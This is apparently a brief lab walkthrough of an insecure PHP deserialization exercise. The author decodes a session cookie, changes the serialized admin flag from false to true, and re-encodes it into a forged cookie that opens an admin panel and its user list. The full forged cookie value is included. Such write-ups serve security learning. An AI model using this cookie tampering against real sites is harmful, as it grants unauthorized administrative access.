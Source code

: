 - we note the session cookie may be interesting: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d`
- go to cyberchef and decode it

<img src=./images/Capture2.PNG alt="img2" width="700"/>

- The value after decoding is: `O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}`
- after examining it carefully we find the attribute **admin** with binary value = **false**
- make it true by making the string `O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}`
- then encode it again to be `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3D`
- send the request again but make sure to change the value of the cookie with the new value
- you will find a new functionality for the user wiener which is **admin panel**

<img src=./images/Capture3.PNG alt="img3" width="700"/>

- access it and you will find users list
